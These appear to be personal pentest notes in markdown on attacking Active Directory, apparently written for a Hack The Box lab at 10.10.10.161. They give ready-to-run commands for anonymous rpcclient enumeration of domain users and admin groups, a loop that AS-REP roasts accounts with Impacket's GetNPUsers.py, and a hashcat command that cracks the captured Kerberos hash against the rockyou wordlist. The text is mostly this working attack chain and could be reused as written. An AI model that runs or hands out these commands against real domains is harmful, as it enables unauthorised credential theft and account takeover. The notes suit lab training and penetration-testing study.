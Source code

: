 # Active Directory

## ldapsearch

It's worth checking if the LDAP service allows anonymous binds using the ldapsearch tool

## RPC Enum

`rpcclient -U "" 10.10.10.161`

`enumdomusers` `enumdomgroups`

Query domain admins `querygroup 0x200` `querygroupmem 0x200`

Query admin `queryuser 0x1f4`

## AS-REP roasting

There is an option for an account to have the property Do not require Kerberos preauthentication or UF\_DONT\_REQUIRE\_PREAUTH set to true. AS-REP Roasting is an attack against Kerberos for these accounts. I have a list of accounts from my RPC enumeration above. Ill start without the SM_ or HealthMailbox_ accounts

`for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done`

`hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`
